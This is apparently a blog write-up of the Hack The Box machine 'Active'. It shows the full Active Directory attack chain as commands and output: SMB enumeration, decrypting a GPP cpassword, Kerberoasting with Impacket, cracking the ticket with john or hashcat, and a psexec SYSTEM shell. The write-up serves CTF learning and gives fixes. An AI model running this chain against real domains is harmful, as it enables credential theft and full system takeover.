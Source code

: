 ```yaml
---
layout: post
title:  "HTB: Active"
date:   2023-10-04 09:19:20 +0700
tags: [htb,pentesting,ctf]
categories: jekyll update
usemathjax: true
---
```


> ## **Overview**

Active was an example of an easy box that still provided a lot of opportunity to learn. The box was centered around common vulnerabilities associated with Active Directory. There’s a good chance to practice SMB enumeration. It also gives the opportunity to use Kerberoasting against a Windows Domain, which, if you’re not a pentester, you may not have had the chance to do before.

> ## **Enumeration**

### **Port Scan Results**

| IP Address | Ports Open |
| --- | --- |
| 10.10.10.100 | TCP: 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5722, 9389
|              | UDP: 123, 137 

### **SMB Enumeration - I**

Since this is a Windows host, Enumerating any readable shares can be really useful.

```bash
smbmap -H 10.10.10.100
```

![https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388](https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388)

And we see that we can only access the share *Replication.*

Connecting to the share using **smbclient**

```bash
smbclient //10.10.10.100/Replication
```

![https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199](https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199)

Once we gain access to the share, we can locate a file named Groups.xml within the directory path 

```bash
**\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\**
```

Upon examining this file, we will discover both a username and an encrypted password.

![https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150](https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150)

```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

### **GPP Passwords**

Whenever a new Group Policy Preference (GPP) is created, there’s an 
xml file created in the SYSVOL share with that config data, including 
any passwords associated with the GPP. For security, Microsoft AES 
encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!

Microsoft issued a patch in 2014 that prevented admins from putting 
passwords into GPP. For more 
details, check out this [AD Security post](https://adsecurity.org/?p=2288).

**Decrypting GPP** 

a tool called "gpp-decrypt" that can be utilized for decrypting GPP (Group Policy Preferences) passwords.

![https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114](https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114)

```bash
root@kali# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

And we got the password **GPPstillStandingStrong2k18**.

### **SMB Enumeration - II**

With a username and password, I can access 3 more shares

There is a Users share that looks interesting

```bash
root@kali# smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY
        Users                                                   READ ON
```

Connecting to the SMB share using **smbclient**

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

And that is enough to get user.txt

> ## Initial Access – Kerberoasting

**Vulnerability Explanation:** Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password.

**Vulnerability Fix:** [Consider using Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) rather than service accounts with static passwords . [Consider upgrading to an Active Directory Domain or forest level](https://adsecurity.org/?p=3377) which supports advanced Kerberos armoring. More information [here](https://www.lepide.com/blog/how-to-prevent-kerberoasting-attacks/)

**Severity: [High](https://capec.mitre.org/data/definitions/509.html)**

**Steps to reproduce the attack:** Since we already possess credentials, we'll use the "GetUserSPNs.py" script from Impacket. This script will enable us to retrieve a list of service usernames linked to regular user accounts and obtain a ticket that I can attempt to crack.

**Proof of Concept**


```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

It also gives me the ticket, which I can try to brute force decrypt to get the user’s password:

**Cracking the ticket**

With John

```bash
./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

If youre facing errors, make sure you use the [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).

With Hashcat

```bash
$ hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

And we got the administrator password : **Ticketmaster1968**

> ## Administrator Access

As we already have admin creds through kerberoasting, we can get the system shell using psexec.py

```bash
root@kali# psexec.py active.htb/administrator@10.10.10.100
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file dMCaaHzA.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service aYMa on 10.10.10.100.....
[*] Starting service aYMa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

![https://cdn.discordapp.com/attachments/928373179003600907/1159058806349778944/image.png?ex=651e8121&is=651d2fa1&hm=3691f9cc6292a3dea0c27e2a66526177f7fd1aad6c00315717d310d7ed537fdc&](https://cdn.discordapp.com/attachments/928373179003600907/1159058806349778944/image.png?ex=651e8121&is=651d2fa1&hm=3691f9cc6292a3dea0c27e2a66526177f7fd1aad6c00315717d310d7ed537fdc&)


## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).
